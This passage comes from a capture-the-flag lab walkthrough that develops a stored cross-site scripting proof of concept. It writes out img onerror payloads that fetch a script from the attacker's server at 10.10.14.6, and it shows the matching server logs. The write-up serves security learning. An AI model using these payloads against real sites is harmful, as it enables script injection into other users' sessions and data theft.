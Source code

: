 ![image-20230719171446623](/img/image-20230719171446623.png)

The full name is shown, escaped correctly. The “created” time is a failed image load, and the foreground has an alert popup with the message “1”!

### XSS POC

#### Better Payload - Part 1

For some reason, `script` tags in the username don’t load. I’ve shown that I can get a line of code running as part of the `onerror` in an image load (a very common XSS technique). I’ll build from there.

There’s a couple of workarounds to get code running nicely. I went for a method modeled off the `fetch` call in the legit page above. I’ll start with a simple `fetch` on my server with the username:

```

Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="fetch('http://10.10.14.6/xss.js');" />

```

On logging in, submitting a note and viewing it, there’s a request at my server:

```
10.10.14.6 - - [19/Jul/2023 18:20:40] code 404, message File not found
10.10.14.6 - - [19/Jul/2023 18:20:40] "GET /xss.js HTTP/1.1" 404 -

```

I’ll create this file with some simple JavaScript in it:

```

oxdf@hacky$ echo "alert(1);" > xss.js 

```

On refreshing, it gets the file just file:

```
10.10.14.6 - - [19/Jul/2023 18:22:58] "GET /xss.js HTTP/1.1" 200 -

```

The next step is to try to use this file to do something. I’ll create this payload that will try to write the contents to the console:

```

Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5<img src='#' onerror="fetch('http://10.10.14.6/xss.js').then(r => r.text()).then(t => {console.log(t)});" />

```

On logging out, registering, logging back in, and creating a note, there’s a hit at my server:

```
10.10.14.6 - - [19/Jul/2023 18:25:06] "GET /xss.js HTTP/1.1" 200 -

```
